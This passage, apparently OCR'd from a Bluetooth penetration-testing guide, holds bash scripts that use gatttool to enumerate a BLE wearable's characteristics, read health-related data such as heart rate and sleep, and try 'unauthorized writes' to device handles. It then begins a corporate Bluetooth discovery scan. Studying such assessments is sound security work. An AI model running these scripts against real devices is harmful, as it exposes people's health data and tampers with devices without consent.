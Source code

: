 echo "Services discovered:"\
cat gatt_services.txt

\# Step 3: Characteristic enumeration\
echo "Step 3: Enumerating characteristics..."\
gatttool -b \$BLE_TARGET \--characteristics \> gatt_characteristics.txt

\# Look for interesting characteristics\
echo "Analyzing characteristics for sensitive data..."\
grep -iE "(heart\|step\|sleep\|battery\|device\|name)"
gatt_characteristics.txt \> sensitive_chars.txt

#### **Phase 3: Data Extraction and Analysis**

\# Step 4: Reading sensitive characteristics\
echo "Step 4: Attempting to read sensitive data..."

while read line; do\
if \[\[
$line \=\~ handle: 0x(\[0-9a-fA-F\]+) \]\]; then  handle="0x${BASH_REMATCH\[1\]}"\
echo "Reading characteristic at handle \$handle"\
gatttool -b \$BLE_TARGET \--char-read -a \$handle \>\>
extracted_data.txt 2\>&1\
fi\
done \< gatt_characteristics.txt

\# Step 5: Attempting unauthorized writes\
echo "Step 5: Testing write capabilities..."\
\# Common writeable characteristics\
WRITABLE_HANDLES=(0x0025 0x0028 0x002b)

for handle in "\${WRITABLE_HANDLES\[@\]}"; do\
echo "Testing write to handle \$handle"\
gatttool -b \$BLE_TARGET \--char-write -a \$handle -n 01 \>\>
write_tests.txt 2\>&1\
done

### **Scenario 3: Corporate Bluetooth Infrastructure Assessment**

#### **Phase 1: Environment Mapping**

#!/bin/bash\
\# Corporate Bluetooth Infrastructure Assessment

echo "=== CORPORATE BLUETOOTH SECURITY ASSESSMENT ==="

\# Step 1: Comprehensive device discovery\
echo "Step 1: Mapping Bluetooth environment..."

\# Extended discovery session\
bluelog -i hci0 -o corporate_devices.log -v -t &\
BLUELOG_PID=\$!

\# Parallel active scanning\
hcitool scan \--length=20 \> active_scan.txt &
